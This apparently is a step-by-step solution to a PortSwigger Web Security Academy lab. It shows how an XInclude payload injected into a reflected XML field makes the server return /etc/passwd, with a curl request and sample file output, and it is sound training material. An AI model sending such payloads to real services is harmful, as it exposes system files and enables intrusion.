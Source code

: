 \# Solution – Exploiting XInclude to Retrieve Files



\## Lab title

Exploiting XInclude to retrieve files  

(PortSwigger Web Security Academy)



\## Step 1: Find an XML endpoint that reflects user data



Example XML:

```xml

<check>

&nbsp; <message>Hello</message>

</check>





==>Server returns “Hello” – you control the value and it is reflected.



Step 2: Craft payload using XInclude



<check xmlns:xi="http://www.w3.org/2001/XInclude">

&nbsp; <message>

&nbsp;   <xi:include parse="text" href="file:///etc/passwd"/>

&nbsp; </message>

</check>





==>This wraps user data with XInclude syntax to include the file.



Step 3: Send the payload



Use Burp Repeater :



curl https://your-lab-id.web-security-academy.net/check \\

&nbsp; -X POST \\

&nbsp; -H "Content-Type: application/xml" \\

&nbsp; --data-binary @xinclude-payload.xml



Step 4: Review the response

If successful, you’ll see /etc/passwd content inside the <message> tag:



root:x:0:0:root:/root:/bin/bash

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin



Step 5: Lab solved

The server processed XInclude and returned file data ==> lab completes.







